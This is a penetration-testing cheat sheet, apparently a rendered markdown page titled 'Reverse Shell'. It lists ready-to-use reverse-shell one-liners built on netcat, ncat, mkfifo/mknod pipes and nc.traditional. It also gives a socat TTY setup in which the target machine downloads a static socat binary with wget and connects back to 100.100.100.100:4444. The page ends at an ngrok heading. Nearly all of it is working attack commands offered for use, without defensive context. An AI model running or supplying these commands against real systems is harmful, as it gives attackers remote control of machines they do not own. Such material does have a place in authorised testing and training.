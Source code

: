 # Reverse Shell

## Resources

https://alamot.github.io/reverse_shells/
https://github.com/ShutdownRepo/shellerator

## Basics / Classical {#basics--classical}

Reverse shell:

```
nc -nv IP 443 -e /bin/bash
ncat --udp IP 443 -e /bin/bash
```

```
/bin/sh | nc ATTACKING-IP 443
```

OR

```
rm -f /tmp/x; mknod /tmp/x p && nc <IP> <PORT> 0</tmp/x | /bin/bash 1>/tmp/x 
rm -f /tmp/x; mknod /tmp/x p && /bin/nc.openbsd <IP> <PORT> 0</tmp/x | /bin/bash 1>/tmp/x

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> > /tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc.openbsd <IP> <PORT> > /tmp/f
```

OR

```
/bin/nc.traditional <IP> <PORT> -e /bin/bash 
/bin/nc.traditional <IP> <PORT> -c /bin/bash
```

## Socat reverse shell allow to have TTY

### Attacker machine

socat file:`tty`,raw,echo=0 tcp-listen:4444

### Target machine

```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod+x/tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sanetcp:100.100.100.100:4444
```

## Reverse shell using ngrok
